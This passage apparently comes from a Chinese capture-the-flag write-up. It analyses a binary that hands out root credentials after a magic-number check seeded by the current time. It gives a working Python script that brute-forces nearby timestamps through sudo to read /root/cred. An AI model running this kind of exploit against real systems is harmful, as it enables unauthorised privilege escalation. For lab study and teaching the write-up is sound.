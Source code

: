 ```c
  }
  return v8;
}
```

**核心逻辑分析**：

1. 程序接收一个命令行参数 `magic_number`
2. 使用 **当前时间戳** 作为随机数种子
3. 生成随机数 `v21 = rand() % 86400`
4. 调用 `generate_normal_distribution()` 生成正态分布值（范围约 -3 到 3）
5. 计算：`v16 = (int)(5.0 * norm_val) + v21`，并限制在 `[0, 86399]` 范围内
6. 验证条件：`magic_number == v16 + 12345`
7. 验证成功后读取 `/root/cred` 文件（应该包含 root 密码）

**漏洞点**：

- 正态分布值范围有限（约 -3 到 3），乘以 5 后范围约 `[-15, 15]`
- 时间戳可预测，可在程序执行前后几秒内枚举所有可能的时间戳
- 每个时间戳对应的 `magic_number` 候选值只有约 31 个（-15 到 15）

## 5.6 编写 Exploit

创建 Python 脚本暴力枚举所有可能的 `magic_number`：

```bash
lamb@pwnding:/tmp$ vim a.py
lamb@pwnding:/tmp$ cat a.py 
#!/usr/bin/env python3
import subprocess
import time
import ctypes

libc = ctypes.CDLL("libc.so.6")

def calcMagic(ts):
    libc.srand(ts)
    v21 = libc.rand() % 86400
    for norm_val in range(-15, 16):
        v16 = norm_val + v21
        v16 = max(0, min(v16, 86399))
        magic = v16 + 12345
        yield magic

def exploit():
    ts = int(time.time())
    for t in range(ts - 2, ts + 3):
        for magic in calcMagic(t):
            try:
                result = subprocess.run(
                    ['sudo', '/usr/local/bin/getroot', str(magic)],
                    capture_output=True, timeout=1
                )
                if result.stdout:
                    print(f"[+] Success! ts: {t}, magic: {magic}")
                    print(result.stdout.decode())
                    return
            except:
                pass
    print("[-] Failed")

if __name__ == "__main__":
    exploit()
```
